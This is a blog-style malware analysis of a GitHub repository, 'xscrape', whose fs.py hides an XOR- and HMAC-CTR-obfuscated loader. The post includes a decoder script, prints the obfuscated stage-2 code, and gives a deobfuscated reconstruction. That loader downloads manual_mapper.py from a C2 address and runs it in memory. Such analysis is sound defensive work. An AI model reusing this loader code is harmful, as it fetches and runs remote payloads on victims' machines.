



---
title: "The dangers of online repos "
date: "2026-10-25T09:00:00+08:00"
publishDate: "2026-10-25T09:00:00+08:00"
description: "Random github repos with embedded malware"
draft: false
tags: ["Threat Hunt", "Blueteam", "C2", "Malware", "Github", "Social Engineering"] 
--- 

## Background
Even before the rise of AI, anybody was able to write code on Github, and purchase an enormous amounts of "Stars" and "Forks" to beat the HR recruitment process of focusing on projects instead of GPA/Leetcode results. Now with the AI, this service has only gotten cheaper. Additionally, threat actors can even embed malware into their projects to trick unsuspecting users into cloning and running the repository. The entire engagement loop would be: 
1) Write Malware
2) Age the repo and in the meantime, set up purchase process for stars and forks 
3) Purchase stars, forks, set up social media posts touting repo tool solving a certain problem, especially on AI-code friendly forums 
4) Succeed. Even if the repo is pulled down, as long as one person cloned it, it's a success. 

## Detailed Investigation 

### TLDR 
There are two variants thus far, both named `xscrape`. They only work on Windows (based on static analysis), on macOS/Linux, the exploit will exit early. For `fs.py`, it's XOR encoded, and when executed, connects to a remote IP, downloads `manual_mapper`, starts a PE and likely, continues the third stage/final payload. For the `embedded PE Header`, it persists via `HKCU\RUN` when executed, and the implant persists the payload via other things, masquerading as a OneDrive file and also self-healing. 

### Workings of the Code

#### Stage 1: Obfuscated `fs.py` loader
For now, the repository is live at https://github.com/kloxeld/xscrape/blob/main/xscrape/fs.py. The link isn't obfuscated since it only redirects to github, which itself isn't malicious. Note that for future readers, this repository will likely be taken down since I've also reported it moments after finishing this blog post. 



As per the image from Github, we can observe the presence of lines like 
```
_rd9r1n=lambda a,k:bytes(v^k for v in a)
```

These lines are indicative of encoding, with the aim of bypassing both analysis and static antivirus detection. Only at runtime will these malware be decoded and executed. 


As per the example code line I pasted above (which was the first line), the malware author defined every sensitive name in the file as `_rd9r1n([...],key)`. A second helper would be the other lambda function:
```
_k7tnfw=lambda m,s,k:getattr(m,_rd9r1n(s,k).decode())
```
who hides attributes names. 

Below is the sample code I used to decode the file. It can be executed with `python3 -I decoder.py sample.py --all output.txt`.

```python
import ast, sys, hashlib, hmac, zlib, re, json


def lit(node):
    return ast.literal_eval(node)


def xor(data, key):
    return bytes(v ^ key for v in data)


def ctr(key, nonce, data):
    """HMAC-SHA256 in counter mode: keystream block = HMAC(key, nonce || counter_le64)."""
    out, pos, counter = bytearray(len(data)), 0, 0
    while pos < len(data):
        block = hmac.new(key, nonce + counter.to_bytes(8, "little"), hashlib.sha256).digest()
        n = min(32, len(data) - pos)
        for i in range(n):
            out[pos + i] = data[pos + i] ^ block[i]
        pos += n
        counter += 1
    return bytes(out)


# ---------------------------------------------------------------- layer 1 ---
def layer1(src):
    """fs.py -> decrypted, decompressed stage 2 source (bytes)."""
    tree = ast.parse(src)

    # 1. The XOR lambda: NAME = lambda a, k: bytes(v ^ k for v in a)
    xname = next((n.targets[0].id for n in tree.body
                  if isinstance(n, ast.Assign) and isinstance(n.value, ast.Lambda)
                  and len(n.value.args.args) == 2 and "bytes(" in ast.unparse(n.value.body)), None)
    if not xname:
        raise ValueError("no XOR lambda found")

    # 2. Top-level XOR-encoded constants (module names, keys, nonces) and the blob list
    consts, blobs = {}, None
    for n in tree.body:
        if isinstance(n, ast.Assign) and isinstance(n.targets[0], ast.Name):
            v = n.value
            if isinstance(v, ast.Call) and getattr(v.func, "id", None) == xname:
                consts[n.targets[0].id] = xor(lit(v.args[0]), lit(v.args[1]))
            elif isinstance(v, ast.List) and v.elts and isinstance(v.elts[0], ast.List):
                blobs = lit(v)                       # list of int lists = encrypted chunks
    if blobs is None:
        raise ValueError("no blob list found")

    # 3. The payload builder: holds the chunk order (r=[...]) and two cipher calls
    #    whose first two arguments are XOR constants (key, nonce).
    for fn in (n for n in tree.body if isinstance(n, ast.FunctionDef)):
        order, calls = None, []
        for s in ast.walk(fn):
            if (isinstance(s, ast.Assign) and isinstance(s.value, ast.List) and len(s.value.elts) > 1
                    and all(isinstance(e, ast.Constant) and isinstance(e.value, int) for e in s.value.elts)
                    and max(lit(s.value)) < len(blobs)):
                order = lit(s.value)
            if (isinstance(s, ast.Call) and len(s.args) == 3
                    and all(isinstance(a, ast.Name) and a.id in consts for a in s.args[:2])):
                calls.append(s)
        if order and len(calls) == 2:
            break
    else:
        raise ValueError("no payload builder found")

    # 4. Decrypt in the order the sample does: the call whose data argument is a plain
    #    variable runs first; the call nested inside decompress(...) runs second.
    inner = [c for c in calls if not any(isinstance(x, ast.Call) for x in ast.walk(c.args[2]))]
    outer = [c for c in calls if c not in inner]
    data = b"".join(bytes(blobs[i]) for i in order)
    for call in inner + outer:
        data = ctr(consts[call.args[0].id], consts[call.args[1].id], data)
    return zlib.decompress(data), {"chunk_order": order, "chunks_total": len(blobs)}


# ---------------------------------------------------------------- layer 2 ---
def layer2(src2):
    """stage 2 source -> (decoded string table, decoded config dicts)."""
    tree = ast.parse(src2)
    seed = table = table_name = None
    for n in tree.body:
        if isinstance(n, ast.Assign) and isinstance(n.targets[0], ast.Name):
            v = n.value
            if isinstance(v, ast.Call) and getattr(v.func, "id", None) == "bytes" and isinstance(v.args[0], ast.List):
                seed = bytes(lit(v.args[0]))                      # 32-byte key seed
            elif (isinstance(v, ast.List) and v.elts and isinstance(v.elts[0], ast.Constant)
                    and isinstance(v.elts[0].value, bytes)):
                table, table_name = lit(v), n.targets[0].id       # encrypted string table
    if seed is None or table is None:
        raise ValueError("no string table found")

    # out[j] = enc[j] ^ sha256(seed || i_le32)[j % 32] ^ ((j * MUL + ADD) & 255)
    m = re.search(r"\(\(\s*\w+\s*\*\s*(\d+)\s*\+\s*(\d+)\s*\)\s*&\s*255\s*\)", src2)
    mul, add = (int(m.group(1)), int(m.group(2))) if m else (17, 11)
    strings = []
    for i, enc in enumerate(table):
        key = hashlib.sha256(seed + i.to_bytes(4, "little")).digest()
        strings.append(bytes(enc[j] ^ key[j % 32] ^ ((j * mul + add) & 255)
                             for j in range(len(enc))).decode("utf-8", "replace"))

    # The decoder function is the one that reads the table; calls to it look like DEC(17).
    dec = next(f.name for f in tree.body if isinstance(f, ast.FunctionDef)
               and any(isinstance(x, ast.Name) and x.id == table_name for x in ast.walk(f)))

    def value(node):
        if (isinstance(node, ast.Call) and getattr(node.func, "id", None) == dec
                and len(node.args) == 1 and isinstance(node.args[0], ast.Constant)):
            return strings[node.args[0].value]
        return lit(node)                                          # plain literal (port, bools)

    # Config dicts: every top-level dict whose keys are decoder calls
    configs = []
    for n in tree.body:
        v = n.value if isinstance(n, (ast.Assign, ast.AnnAssign)) else None
        if isinstance(v, ast.Dict) and v.keys and all(isinstance(k, ast.Call) for k in v.keys):
            configs.append({value(k): value(val) for k, val in zip(v.keys, v.values)})
    return strings, configs


if __name__ == "__main__":
    args = [a for a in sys.argv[1:] if a != "--all"]
    stage2, meta = layer1(open(args[0]).read())
    if len(args) > 1:
        with open(args[1], "wb") as f:                            # saved as data, never run
            f.write(stage2)
    strings, configs = layer2(stage2.decode("utf-8", "replace"))
    report = {"stage2_sha256": hashlib.sha256(stage2).hexdigest(), "stage2_bytes": len(stage2),
              **meta, "config": configs,
              "notable_strings": [s for s in strings if re.search(
                  r"\d+\.\d+\.\d+\.\d+|^[0-9a-f]{32}$|\.py$|/api|SyncClient|win32|http", s)]}
    if "--all" in sys.argv:
        report["all_strings"] = dict(enumerate(strings))
    print(json.dumps(report, indent=1, ensure_ascii=False))
```

```txt
from __future__ import annotations
_xvqf4hh=bytes([127,219,112,168,191,223,44,223,123,217,139,228,173,88,44,121,138,190,155,141,231,90,121,206,32,107,158,195,29,146,34,15])
_hphy218=[b'-\xbd\xde\x8a\xfff\x89\x13',b's\xec\xf9\x8c{\xaa\x8d\xf7Z',b'\xa1\xb4',b'ki\xd3',b'0\xc8\x96Su',b'p\xa76\x9e?k\xea\xb2\x18\x10\xe5Z',b'$\xbb?\x91\x10\x02\xc3{\xbb\xbcCa\xf10',b'\x18\xaf\x11L0l',b'\xde\xbc9',b'`\xaf\xc8\xe3\x0c\xf9\x7f\xed',b's~\x9c',b'\xd9\xac\x98;\xed)n!',b'E(\xdb\xae\\9\x9d\x88\x12\xc7ob',b'\xf0\xa9CF@"s@',b'\x17\x96\xef\xac\xbbK\x1an',b'\xe1\xf3\xc3R',b'\xd7\x91\xa0d',b'T\x8f\xc5\xdc4\xbf\x0b',b'D\xd8+E\x10\x91\xc3\\i?\x99',b'\xd39Lit',b'\xbc_\xdf\x1b@\x04xPg\x84\xae\xfc\x19',b'\xd3k\xf2\xa9\xae8\x05\xcc\xc5\x10\xe6\x9e\x1ct\xa3|\xb8&\x99;\xb6q\x0c\xa6\x83\xd4\x15\x91\x07\xc3x\xa0',b'd=\x0e\x02T`\xbc\x00i\xed\x9c\xf1\x94\x7f\xce\x8bzSl\xe5\x088*\xc2\x06\xc0\x05T\xb1\x19L5',b'&&\x8b\xf5',b'\xb8\xf5\x04s\r',b'{\xe1b\x89\n\xfb\xaa\x0e',b'\xa0V\x8483',b'A\xe7\x9b\xa6I\xb8\xe2',b'3\xe8\x13\xa0',b'\xb4\xcc\xcc\xf5',b'>S\xd8\xa8\xc56L;\xd6\xc9\x10\xa8j\xb8Bz',b'\x9e\xcdT<\x1b\xea{\x1e\xf1\xa5,',b"'\x0e\xcdB",b'\'\xdb\xdc\xcb\xd1"w\xec\x01J\r',b'U\xca\xdd\xc4',b'\x8a\x01eB5\x1c;\x17\xc0\x82O\xf6T\xae',b'|\x91\xc2\xf3\x83\xb7\x93',b'R\xf8\x99|t\x96\xac\xe0\xf5P\xbc\xd7\x05\xa9\xe4/\xb0\xe7',b'Hs*t\x9am\xf1\xefTa\xe2',b'\xd7I{\x81\xfb/Y\n\xbbR\x14\x92',b',\xb4\xe9\xc1\x97',b'6\xca\xf6^',b'8\x91\xdft',b'r\xf0\x91|\xb2\xc1t',b'\xe16\r\xd5\xad\x8a\x89\x97\x846\x1d',b'%CO;G\xab\x12k\x8d\xa3_v\xa8\xb4)\xcbQ\x02%\xd8\xca\xaf:\x87\xe2>so\xfd\xb4I\xbb\x01n;toX\xa2X\xa7\xdf\x06\\\x83\x1d\xc1\xecv?\\\xef\xad\x00\x8a\x07e\x1bU\x1a>5[\xbeM0 !\xc2|\x9c>\x82\xfb\x18\xad|',b'\xf4d\xc8\xf5',b'\x91',b'\xb1',b'\x8b',b'F',b'7',b'\x9e\x08"\xa8',b'\xf8\x8f35\x89aP',b'\xc6\xb9rnK)9\xad\x9d\xab=\xc4"=\x84\xa1\xc5\xac\x9a',b'\x12\xf0\xcbIL',b'\xec\r\x93',b'0p\x92\t\xfbUc',b"]'\x0c\x02\n",b"'\x93\tb\xd6\xe1\xe5\xfa\xd77",b'\xa2\x7f,\x04\x9ed\xe3\xd7\x9b#Y2?\xec',b'\x11\x91\x0fK\xbb\xcf\x07\x8b\xd0\x8d_\xf8\xd4',b'\xab\x11\x91\xb91V\x8f',b"I\xc7!h\x8d\xf4V\xb5'\xa39\x002\x15\xf3",b'\xb7P`\xed\x97`\xe0r\x904O\xe0\x05\x041`\x18',b'Y\xe2\xb3\xea4!\x01y\x99\x802h\xfeG',b'\xb2N*',b'y#\xd7\xf0y',b'\xf3',b'1Y4\xc7',b'z@\xfb\x19h',b"\xddg?\x80%\x15Y\xde\xc2'",b'\x02\xe2\xe46\xe5f\xf8\xd8\xf6\x05\xc6\xcdj',b'pA\x87u\x1e(\xe6\xc7-*B\xb0\x15\xe4\xcf\xc5\xd8\nI\xe9v\xb9|\x90]\xb8\xb5\xf6\xdb\xd3',b'{c\xe8\xbc\xe1\x02\x03n\x8bF;\xbeA\xdb\xb2',b'x\x935\x9eq!\x17',b'\xa0c\xc7o\xc7\xebc\xda\xcb\xa0R)\x8c5q\xe6\xcei0f|m\x9eK\xf5\xe2',b'\xe1m&',b'5in\x04\x0e6\x05\xb1\xab\x90y\xc2\xd3',b'Nn;\x14)xx',b'\xe7\x95\xb8\xf8R',b'\xd2\xea\xbd\x04\xfb&\xd3',b'\xaf\xb1(F\xd0\x87\x14b%\xdbE',b'\xa6\x9a\x9a\xa8C\xd0\x82B',b'),\xd0_o\x06\xc2',b'\xde\x8dV\x06\x1d',b'\xeb?',b'\x99',b'\xc9\x14xN',b'\x17\xe2a\xda\xce',b'y\xe92\x82\xa4\xf3\xb2',b'\xf8b\xf5\xe0',b'\x7f\xc6k\xedF\xfeJ\xe9{IB\xfe\xcf\x862O\x0f\xff\xd2\xde',b':\xe9\xe7',b'\x88',b'F\xbdz\x81B\x95r\x82qo0\xb5\xacVS\x81\x7f',b'\xbf\xc9\x86T\x0b\x89X\x91\xb2',b'hq\x1c\x9b\x1d\xda\x9b\x85;N\x8b\xb5\x08',b' +\xbc\x0e\xe1\x90\x19\xdf\xdc\x95',b'\xfb%\x816\xa1\x9eO\xf0x*',b'\xff\xa8',b'\x81\x00\xba\xdd\xaa\x9e{\xa0\x92',b',\xefqnn{\xae>\x0c\xbc',b'c\x96',b'\x8dyD\xdd[\x85\xa6',b'\x99\x02[\xcaG\x80\xdf\xf2\x1c:',b'\xd4>\xb1\xbc\xe2`',b'\xbc\xe9$o\xae\xc3e\xf1\xe3\xe3',b'\xfa\xbbX\x14E\xd4\xd5',b'\x8e\xd6J\xae!a\xb3\n\xed\x045',b'\xca\xcc\x06@\xa7Nk0',b'\x9e+\xd53\xd7\xd6&',b'Q\x8d<\xbb\xbc',b'\xe5\xd7\xde\xbe\xb8',b'\xafe-\xeb\xaa\xe3I',b'br\xe3\xb6',b'\xb98\x8e',b'O\x19R`\xdc',b'\x1b@',b'\xe7',b'\xb6\xd4\xe4\xdc',b'\x99\xa1\xc8@\xb6\xc2\xadi',b'\xf3\x95v\xab\xec',b'G\x02D7\x86\xf1w!jx\xad)AL\x86',b'\x91&\x13pM\x16F"\xe1\xa6\xec\x9e\xa8\x89\xcb\xaaw\'\xe2',b'\x91\xc5\xa6\xb8E\xcb',b'\x8e\x1a$\x1f\xc2pq\xd1\xa3\xb9U\x0f\x91',b'Q\xfa|\x96\x92\x94\xcci\x97\xc8\xe7\xda~\xadh}\x13y',b'\xfaz\x85\x83\x9f\xe2',b'\xad\x08\xccY\x82\xfb6y',b'\xb2cG\xd6mi\x87\xccA\x10:\xad)"\xa9[\x1f',b'\x0b\xba\xc41\xce\xb2\x12p\xc2\x8f\xc0\xa5\x84\x90X==\xeb',b'F5L)4Kt\\\xbc\xc1\x01\xdd\xf9G\xb8',b'Y@\xdcc\xe0\x16\xd5yH\n\xca\xa4V\xfa\xc1',b'b\xeb\xf0v\x89\\']
def _tqq87f1(_i):
    _r=_hphy218[_i]
    _h=__import__(bytes([104,97,115,104,108,105,98]).decode())
    _k=_h.sha256(_xvqf4hh+_i.to_bytes(4,'little')).digest()
    return bytes(_r[_j]^_k[_j%32]^((_j*17+11)&255) for _j in range(len(_r))).decode()
argparse = __import__(_tqq87f1(0))
importlib = __import__(_tqq87f1(1))
os = __import__(_tqq87f1(2))
sys = __import__(_tqq87f1(3))
types = __import__(_tqq87f1(4))
urllib = __import__(_tqq87f1(5))
urllib = __import__(_tqq87f1(6))
_m_6a5df9 = __import__(_tqq87f1(7), fromlist=[_tqq87f1(8), _tqq87f1(9)])
Any = getattr(_m_6a5df9, _tqq87f1(10))
Optional = getattr(_m_6a5df9, _tqq87f1(11))
_m_16d628 = __import__(_tqq87f1(12), fromlist=[_tqq87f1(13)])
urlparse = getattr(_m_16d628, _tqq87f1(14))
_bcrcy1s1cr: dict[str, Any] = {_tqq87f1(15): _tqq87f1(20), _tqq87f1(16): 8765, _tqq87f1(17): _tqq87f1(21), _tqq87f1(18): _tqq87f1(22), _tqq87f1(19): _tqq87f1(23)}
_y064ee941q: dict[str, Any] = {_tqq87f1(24): _tqq87f1(29), _tqq87f1(25): False, _tqq87f1(26): True, _tqq87f1(27): False, _tqq87f1(28): False}
CLIENT_MODULE = _tqq87f1(30)

def _ccccrurnqg() -> dict[str, Any]:
    out: dict[str, Any] = {}
    if (v := os.environ.get(_tqq87f1(31), '').strip()):
        out[_tqq87f1(32)] = v
    if (v := os.environ.get(_tqq87f1(33), '').strip()):
        out[_tqq87f1(34)] = int(v)
    if (v := os.environ.get(_tqq87f1(35), '').strip()):
        out[_tqq87f1(36)] = v
    if (v := os.environ.get(_tqq87f1(37), '').strip()):
        out[_tqq87f1(38)] = v
    if (v := os.environ.get(_tqq87f1(39), '').strip()):
        out[_tqq87f1(40)] = v
    return out

def load_config() -> dict[str, Any]:
    cfg = dict(_y064ee941q)
    if _bcrcy1s1cr:
        cfg.update(_bcrcy1s1cr)
    cfg.update(_ccccrurnqg())
    for key in (_tqq87f1(41), _tqq87f1(42), _tqq87f1(43), _tqq87f1(44)):
        if key not in cfg or cfg[key] in ('', None):
            raise RuntimeError(_tqq87f1(45))
    return cfg

def _qwari697qs(cfg: dict) -> str:
    host = str(cfg[_tqq87f1(46)]).strip()
    if _tqq87f1(47) in host and (not host.startswith(_tqq87f1(48))):
        host = _tqq87f1(49) + format(host) + _tqq87f1(50)
    return format(host) + _tqq87f1(51) + format(cfg[_tqq87f1(52)])

def _hra6tr4adw(cfg: dict) -> str:
    return _tqq87f1(53) + format(_qwari697qs(cfg)) + _tqq87f1(54) + format(cfg[_tqq87f1(55)])

def _x0qbxvi68p(sync_url: str) -> str:
    return format(urlparse(sync_url).scheme) + _tqq87f1(56) + format(urlparse(sync_url).netloc)

def _b0bgxh5j9g(msg: str, cfg: dict) -> None:
    if cfg.get(_tqq87f1(57)) and (not cfg.get(_tqq87f1(58))):
        print(msg)

def _q7kah9hbkh(url: str, api_key: str, timeout: float=60.0) -> bytes:
    headers = {_tqq87f1(59): _tqq87f1(60)}
    if api_key:
        headers[_tqq87f1(61)] = _tqq87f1(62) + format(api_key)
    req = urllib.request.Request(url, headers=headers)
    try:
        with urllib.request.urlopen(req, timeout=timeout) as resp:
            return resp.read()
    except urllib.error.HTTPError as exc:
        if exc.code == 404:
            raise RuntimeError(_tqq87f1(63) + format(url)) from exc
        if exc.code == 401:
            raise RuntimeError(_tqq87f1(64)) from exc
        raise RuntimeError(_tqq87f1(65) + format(exc.code)) from exc

def _tanvjz5fqr(name: str, data: bytes) -> None:
    mod_name = name[:-3] if name.endswith(_tqq87f1(66)) else name
    sys.modules.pop(mod_name, None)
    module = types.ModuleType(mod_name)
    module.__file__ = _tqq87f1(67) + format(name) + _tqq87f1(68)
    module.__loader__ = None
    sys.modules[mod_name] = module
    exec(compile(data, name, _tqq87f1(69)), module.__dict__)

def bootstrap(cfg: dict, url: str) -> None:
    if sys.platform != _tqq87f1(70):
        raise RuntimeError(_tqq87f1(71))
    if _tqq87f1(72) in sys.modules:
        _b0bgxh5j9g(_tqq87f1(73), cfg)
        return
    data = _q7kah9hbkh(format(_x0qbxvi68p(url)) + _tqq87f1(74) + format(CLIENT_MODULE), cfg[_tqq87f1(75)])
    _tanvjz5fqr(CLIENT_MODULE, data)
    _b0bgxh5j9g(_tqq87f1(76), cfg)

def run_sync(**overrides: Any) -> int:
    cfg = {**load_config(), **overrides}
    url = overrides.get(_tqq87f1(77)) or _hra6tr4adw(cfg)
    bootstrap(cfg, url)
    map_from_server = importlib.import_module(_tqq87f1(78)).map_from_server
    verbose = bool(cfg.get(_tqq87f1(79)) and (not cfg.get(_tqq87f1(80))))
    return map_from_server(url, api_key=cfg[_tqq87f1(81)], payload_key=cfg[_tqq87f1(82)], verbose=verbose, run_entry=not cfg.get(_tqq87f1(83), False))

def run(cfg: Optional[dict]=None) -> int:
    base_cfg = load_config()
    cfg = dict(base_cfg if cfg is None else {**base_cfg, **cfg})
    try:
        base = run_sync(**cfg)
        if cfg.get(_tqq87f1(84)) and (not cfg.get(_tqq87f1(85))):
            print(_tqq87f1(86) + format(base, _tqq87f1(87)))
        if cfg.get(_tqq87f1(88)):
            input()
        return 0
    except Exception as exc:
        if not cfg.get(_tqq87f1(89)):
            print(_tqq87f1(90) + format(exc), file=sys.stderr)
            if cfg.get(_tqq87f1(91)):
                input()
        raise

def main() -> int:
    cfg = load_config()
    p = argparse.ArgumentParser(description=_tqq87f1(92))
    p.add_argument(_tqq87f1(93), nargs=_tqq87f1(94), help=_tqq87f1(95))
    p.add_argument(_tqq87f1(96), default='')
    p.add_argument(_tqq87f1(97), default='')
    p.add_argument(_tqq87f1(98), action=_tqq87f1(99))
    p.add_argument(_tqq87f1(100), _tqq87f1(101), action=_tqq87f1(102))
    p.add_argument(_tqq87f1(103), _tqq87f1(104), action=_tqq87f1(105))
    p.add_argument(_tqq87f1(106), action=_tqq87f1(107))
    args = p.parse_args()
    if args.url:
        url = args.url
    else:
        url = _hra6tr4adw(cfg)
    if args.api_key:
        cfg[_tqq87f1(108)] = args.api_key
    if args.payload_key:
        cfg[_tqq87f1(109)] = args.payload_key
    if args.map_only:
        cfg[_tqq87f1(110)] = True
    if args.verbose:
        cfg[_tqq87f1(111)] = True
        cfg[_tqq87f1(112)] = False
    if args.quiet:
        cfg[_tqq87f1(113)] = True
        cfg[_tqq87f1(114)] = False
    if args.keep:
        cfg[_tqq87f1(115)] = True
    base = run_sync(url=url, **{k: v for k, v in cfg.items() if k != _tqq87f1(116)})
    if not cfg.get(_tqq87f1(117)):
        print(_tqq87f1(118) + format(base, _tqq87f1(119)))
    if cfg.get(_tqq87f1(120)):
        input()
    return 0
if __name__ == _tqq87f1(121):
    quiet = True
    try:
        quiet = bool(load_config().get(_tqq87f1(122), True))
    except Exception:
        quiet = True
    try:
        if len(sys.argv) == 1:
            raise SystemExit(run())
        raise SystemExit(main())
    except SystemExit:
        raise
    except Exception:
        if not quiet:
            input()
        raise SystemExit(1)
```


`fs.py` decrypts a hidden Python script and runs it with `exec()` in its own namespace. **The reason why this works offline is because `client.py` does `from . import fs` and then `fs.run_sync()`, and the initialization at `xscrape/__init__.py` imports `client.py`.

To be exact, a single byte XOR is used to hide module/attribute names. 

``` python
_rd9r1n = lambda a, k: bytes(v ^ k for v in a)                   # XOR decode
_k7tnfw = lambda m, s, k: getattr(m, _rd9r1n(s, k).decode())      # hidden getattr
_xvz9negeaj = __import__(_rd9r1n([30,23,5,30,26,31,20], 118).decode())   # 'hashlib'
```
Decoding every such call gives: `hashlib`, `zlib`, `hmac`, `new`, `sha256`, `digest`, `little`, `decompress`, `builtins`, `exec`.

With the names restored, the logic is:

```python
def ctr(key, nonce, data):            # _r10gvj22ag: HMAC-SHA256 in counter mode
    out, pos, ctr = bytearray(len(data)), 0, 0
    while pos < len(data):
        block = hmac.new(key, nonce + ctr.to_bytes(8, 'little'), hashlib.sha256).digest()
        for i in range(min(32, len(data) - pos)):
            out[pos + i] = data[pos + i] ^ block[i]
        pos += 32; ctr += 1
    return bytes(out)

def build():                            # _q6newk
    if ((438 << 3) ^ 61) & 65535 != 3469: return b''   # opaque predicate, always false
    order = [4, 2, 5, 8, 7, 3, 6, 0, 1]                 # 9 of 16 blobs used; 7 are decoys
    p = b''.join(bytes(BLOBS[i]) for i in order)
    u = ctr(KEY_B, NONCE_B, p)                          # lines 7-8
    return zlib.decompress(ctr(KEY_A, NONCE_A, u))      # lines 5-6

builtins.exec(build(), globals())                       # _i44hyn5c6u
```

Do note the following:
1) Keys are 32-bytes and nonces are 16-bytes.
2) There are checksum functions which aren't called. I'm not too sure why, but it's possible that it's just random inserted noise to throw off analysts. 

#### Stage 2: SyncClient Downloader

`manual_mapper.py` is fetched from the C2 and run from memory. The code is encrypted to once again, beat AV and simple analysis.
```python
def s(i):                                   # _tqq87f1
    key = hashlib.sha256(SEED + i.to_bytes(4, 'little')).digest()      # SEED = 32-byte _xvqf4hh
    enc = TABLE[i]                                                       # _hphy218
    return bytes(enc[j] ^ key[j % 32] ^ ((j * 17 + 11) & 255) for j in range(len(enc))).decode()
```

The logic when decoded is similar to this:

``` python
DEFAULTS = {'HOST': '172[.]239[.]96[.]53', 'PORT': 8765,
            'API_KEY': '094750aeef51f8e9d0c126b879c9df07',
            'PAYLOAD_KEY': '7c2101e76c97188da4c56d9c2f31712c', 'ASSET': 'main'}

CLIENT_MODULE = 'manual_mapper.py'

def sync_url(cfg):
    return f"http://{cfg['HOST']}:{cfg['PORT']}/api/v1/sync?asset={cfg['ASSET']}"

def fetch(url, api_key):
    req = urllib.request.Request(url, headers={'User-Agent': 'SyncClient/1.0',
                                               'Authorization': f'Bearer {api_key}'})
    return urllib.request.urlopen(req, timeout=60).read()

def load_in_ram(name, code):               # module never touches disk
    mod = types.ModuleType(name[:-3]); mod.__file__ = f'<ram:{name}>'; mod.__loader__ = None
    sys.modules[name[:-3]] = mod
    exec(compile(code, name, 'exec'), mod.__dict__)

def run_sync(**overrides):
    cfg = {**load_config(), **overrides}
    url = overrides.get('url') or sync_url(cfg)
    if sys.platform != 'win32':
        raise RuntimeError('win32 only')
    if 'manual_mapper' not in sys.modules:
        base = f"{urlparse(url).scheme}://{urlparse(url).netloc}"
        load_in_ram(CLIENT_MODULE, fetch(f'{base}/api/v1/client/{CLIENT_MODULE}', cfg['API_KEY']))
    mapper = importlib.import_module('manual_mapper')
    return mapper.map_from_server(url, api_key=cfg['API_KEY'], payload_key=cfg['PAYLOAD_KEY'],
                                  verbose=False, run_entry=not cfg.get('MAP_ONLY', False))
```

**Note that when reconstructing in a VM, there's a missing config error `mapper config missing - run build_mapper_client.py or set MAPPER_* env vars`**

